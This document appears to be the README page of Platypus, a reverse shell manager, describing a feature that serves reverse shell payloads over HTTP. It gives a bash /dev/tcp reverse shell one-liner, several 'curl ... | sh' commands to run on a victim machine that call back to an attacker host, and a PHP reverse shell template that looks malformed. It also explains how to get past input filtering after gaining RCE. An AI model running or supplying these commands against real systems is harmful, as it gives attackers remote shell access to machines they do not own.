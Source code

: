 # Reverse shell as a Service

> NOTICE: ONLY WORKS on *NIX

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

The command `bash -c "bash -i >/dev/tcp/5.6.7.8/1337 0>&1"` is the equivalent of `curl http://1.2.3.4:1337/5.6.7.8/1337 | sh`, this feature provides the capability to redirect a new reverse shell to another IP and port without remembering the boring reverse shell command.

If you just want to pop up a reverse shell to the listening port of platypus, the parameter (`1.2.3.4/1337`) can be omitted.

Once the command gets executed, the reverse shell session will appear in platypus which is listening on `1.2.3.4:1337`.

## Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

## Specifying language of reverse shell command (default: bash)

Also, you can specify the specific language of creating a reverse shell. All available languages are listed at [templates](https://github.com/WangYihang/Platypus/tree/master/lib/runtime/template/rsh)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

## What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

## How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",`popen /bin/sh -i <&3 >&3 2>&3", "r");'`
```

Then you should use `go-bindata` to add the template file as an asset of Platypus by typing the following command.

```
go get -u github.com/go-bindata/go-bindata/...
go-bindata -pkg resource -o ./lib/util/resource/resource.go ./lib/runtime/...
```

